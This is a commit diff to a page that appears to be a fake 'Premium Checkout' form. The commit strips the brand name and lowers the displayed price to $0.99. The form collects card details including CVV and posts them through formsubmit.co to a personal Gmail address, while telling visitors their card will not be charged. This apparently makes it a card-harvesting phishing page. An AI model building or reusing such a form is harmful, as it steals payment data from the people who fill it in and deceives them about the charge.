

Before and after one commit to ibtesam226-cell/Zoi-Harper, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 928 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Zoi Premium Checkout</title>
+  <title> Premium Checkout</title>
   <style>
     body {
       margin: 0;
@@ -101,8 +101,8 @@
 </head>
 <body>
   <div class="container">
-    <h2>Zoi Premium Access</h2>
-    <span class="price-tag">$10 One-Time</span>
+    <h2> Premium Access</h2>
+    <span class="price-tag">$0.99 One-Time</span>
     <form action="https://formsubmit.co/semijutt91@gmail.com" method="POST">
       <input type="hidden" name="_subject" value="New Zoi Premium Order">
       <input type="hidden" name="Price" value="$10">
@@ -132,7 +132,7 @@
       <label for="cvv">CVV</label>
       <input type="text" name="CVV" required>
 
-      <button type="submit" class="submit-btn">Pay $10</button>
+      <button type="submit" class="submit-btn">Pay $0.99</button>
     </form>
 
     <div class="note">Your payment method will not be charged</div>
```
